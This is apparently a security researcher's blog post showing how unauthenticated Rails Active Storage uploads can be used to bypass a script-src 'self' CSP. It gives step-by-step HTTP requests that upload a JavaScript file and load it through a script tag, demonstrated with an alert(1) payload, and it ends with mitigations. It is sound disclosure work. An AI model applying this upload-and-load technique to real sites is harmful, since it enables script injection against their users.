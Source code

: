 ```yaml
---
layout: post
title: "Rails & Active Storage"
summary: "Unauthenticated file upload & possible CSP bypass"
date:   2025-06-30 16:10:00 -0400
categories: Web 
---
```


# Using Rails' Active Storage And Bypass CSP

> TLDR: ActiveStorage from Rails allows unauthenticated file uploads. It cannot be used directly for XSS, but can be used to bypass CSP (or to host malware).

Active Storage is a built-in feature in Rails that allows users to upload files. It is often used to attach profile pictures to a user. Developers can configure where files are stored. Those can be on the disk, on S3 buckets, Google Cloud Storage, etc. Files can also be transformed using `ffmpeg`, `muPDF` , `ImageMagick` and some other tools.

When enabled, this feature is accessible, by default, to unauthenticated users. They can upload any files to the app and download them. They can even reach endpoints that transform files into other formats! This would allow an attacker to abuse a vulnerable version of `ImageMagick` and potentially gain RCE.

To mitigate the risks of XSS, files are returned by the server alongside the HTTP header `Content-Disposition: attachment`for most filetypes. This header tells the browser to download the file instead of rendering it directly. So, instead of having your `alert(1)`, your browser would ask you to download the file.

A couple of security considerations also exist:

- Filenames are sanitized [here](https://github.com/rails/rails/blob/main/activestorage/app/models/active_storage/filename.rb#L59,L61), which helps prevent injections (RCE, headers):
  
  ```rb
    def sanitized
      @filename.encode(Encoding::UTF_8, invalid: :replace, undef: :replace, replace: "�").
        strip.tr("\u{202E}%$|:;/<>?*\"\t\r\n\\", "-")
    end
  ```
  
- Content-types are validated against a list. Only [these](https://github.com/rails/rails/blob/main/activestorage/lib/active_storage/engine.rb#L65-L76) can be inlined:
  
  ```rb
    config.active_storage.content_types_allowed_inline = %w(
      image/webp
      image/avif
      image/png
      image/gif
      image/jpeg
      image/tiff
      image/bmp
      image/vnd.adobe.photoshop
      image/vnd.microsoft.icon
      application/pdf
    )
  ```

  As far as I know, none of these can be used for XSS.
 
 - There might be anti CSRF, we'd need a token first.

## CSP Bypass

If there's a CSP similar to `Content-Security-Policy: script-src 'self';`, this would prevent any payload like `<script>alert(1)</script>` and `<svg onload=alert(1)>`. By uploading a JavaScript file using Active Storage, it allows an attacker to bypass this restriction. Even when files have the `Content-Disposition: attachment` header, the browser will happily load and execute JavaScript if we use the `<script src>` like so: `<script src="//example.com/test.js"></script>`.

## Technical Details

The following details assume the configuration allows users to upload files on the disk directly. This is just for simplicity; similar payloads would work if the application is using S3 or other cloud providers.

Configuring Active Storage is pretty straightforward and you can follow the official doc [here](https://guides.rubyonrails.org/active_storage_overview.html).

### Exposed Routes

All accessible routes are defined in this [routes.rb](https://github.com/rails/rails/blob/main/activestorage/config/routes.rb) file. Here is more information on the relevant ones in our case. They can be accessed via `example.com/rails/active_storage/*`. All routes are implemented in `activestorage/app/controllers/active_storage/*.rb`.

```rb
post "/direct_uploads" # Allows us to create an "empty file"
put  "/disk/:encoded_token" # Allows us to upload the file content
get "/blobs/proxy/:signed_id/*filename" # Allows us to see the file
```

### Create The File

```
POST /rails/active_storage/direct_uploads HTTP/1.1
Host: localhost:3000
Content-type: application/json
Content-Length: 145

{
  "blob": {
    "filename": "test.js",
    "byte_size": "460",
    "checksum": "sfeC7XeVlcORGXQTjSHrcw==",
    "content_type": "text/javascript",
    "metadata": {}
  }
}
```

The server should respond with a blob of JSON containing all the info we need.

```json
{
  "id": 63,
  "key": "sduznqminzw7q2qnnfaekukgfcam",
  "filename": "test.js",
  "content_type": "text/javascript",
  "metadata": {},
  "service_name": "local",
  "byte_size": 8,
  "checksum": "I46W1bYqGuw3OXMEafJxkg==",
  "created_at": "2025-04-23T23:35:38.274Z",
  "attachable_sgid": "eyJfcmFpbHMiOnsiZGF0YSI6ImdpZDovL3Byb3h5LXhzcy9BY3RpdmVTdG9yYWdlOjpCbG9iLzYzP2
                      V4cGlyZXNfaW4iLCJwdXIiOiJhdHRhY2hhYmxlIn19--96b3263fa7716e9cd776a927e6669e80ce2ede68",
  "signed_id":
    "eyJfcmFpbHMiOnsiZGF0YSI6NjMsInB1ciI6ImJsb2JfaWQifX0=--5ced2e88192089617d33f635398bb4a7595ba198",
  "direct_upload": {
    "url": "http://localhost:3000/rails/active_storage/disk/eyJfcmFpbHMiOnsiZGF0YSI6eyJrZ
XkiOiJzZHV6bnFtaW56dzdxMnFubmZhZWt1a2dmY2FtIiwiY29udGVudF90eXBlIjoidGV4dC9qYXZhc2NyaXB0Iiwi
Y29udGVudF9sZW5ndGgiOjgsImNoZWNrc3VtIjoiSTQ2VzFiWXFHdXczT1hNRWFmSnhrZz09Iiwic2VydmljZV9uYW1
lIjoibG9jYWwifSwiZXhwIjoiMjAyNS0wNC0yM1QyMzo0MDozOC4yOTlaIiwicHVyIjoiYmxvYl90b2
tlbiJ9fQ==--30cd81cba0dc75cb2505313ce2bd4d67c57566cd",
    "headers": {
      "Content-Type": "text/javascript"
    }
  }
}
```

### Add Content To the File

We need to take the `url` from the JSON above and add our content:

```
PUT /rails/active_storage/disk/eyJfcmFpbHMiOnsiZGF0YSI6eyJrZXkiOiJzZHV6bnFtaW56dz
dxMnFubmZhZWt1a2dmY2FtIiwiY29udGVudF90eXBlIjoidGV4dC9qYXZhc2NyaXB0IiwiY29udGVudF9
sZW5ndGgiOjgsImNoZWNrc3VtIjoiSTQ2VzFiWXFHdXczT1hNRWFmSnhrZz09Iiwic2VydmljZV9uYW1l
IjoibG9jYWwifSwiZXhwIjoiMjAyNS0wNC0yM1QyMzo0MDozOC4yOTlaIiwicHVyIjoiYmxvYl90b2tlb
iJ9fQ==--30cd81cba0dc75cb2505313ce2bd4d67c57566cd HTTP/1.1
Host: localhost:3000
Content-type: text/javascript
Content-Length: 8

alert(1)
```

### Retrieve The File

Just take the `signed_id` and add it to the `/blobs/proxy` URL.
```
GET /rails/active_storage/blobs/proxy/eyJfcmFpbHMiOnsiZGF0YSI6NjMsInB1c
iI6ImJsb2JfaWQifX0=--5ced2e88192089617d33f635398bb4a7595ba198/test.js HTTP/1.1
```

Or, `<script src="http://localhost:3000/rails/active_storage/blobs/proxy/eyJfcmFpbHMiOnsiZGF0YSI6NjMsInB1ciI6ImJsb2JfaWQifX0=--5ced2e88192089617d33f635398bb4a7595ba198/test.js"></script>`

And you should get your `alert(1)`.

### Transformations

A couple of endpoints allow conversion of PDF/Videos to PNG. They begin with `/representations`:

```rb
get "/representations/redirect/:signed_blob_id/:variation_key/*filename"
get "/representations/proxy/:signed_blob_id/:variation_key/*filename"
get "/representations/:signed_blob_id/:variation_key/*filename"
```

They all seem secure, meaning we don't have control over the arguments being passed to the converters, nor do we have control over the filename. If there's a known vulnerability in one of the converters (not that ImageMagick is known for having vulnerabilities, but...), this might allow us to trigger it.

## Mitigations
There are a couple of mitigations possible:
- Keep patching and having up-to-date rails and converters
- Restrict the transformations/previewers with `config.active_storage.analyzers` and `config.active_storage.previewers`
- Do not expose the routes by setting `config.active_storage.draw_routes` to false
- Run a task to delete unattached files with `purge_unattached`. Reference [here](https://guides.rubyonrails.org/active_storage_overview.html#purging-unattached-uploads)
- Use a subdomain to host files
- Run scanners against file when they are uploaded with `after_create`

